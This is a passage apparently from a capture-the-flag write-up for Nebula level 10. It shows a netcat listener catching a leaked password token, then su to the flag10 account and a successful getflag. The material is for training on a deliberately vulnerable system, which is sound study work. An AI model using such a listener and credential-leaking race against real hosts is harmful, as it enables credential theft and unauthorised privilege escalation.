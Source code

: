 ```bash
level10@nebula:~$ nc -lk 18211

.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
dummy
.oO Oo.
dummy
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
[...]
level10@nebula:/home/flag10$ su flag10
Password: 
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
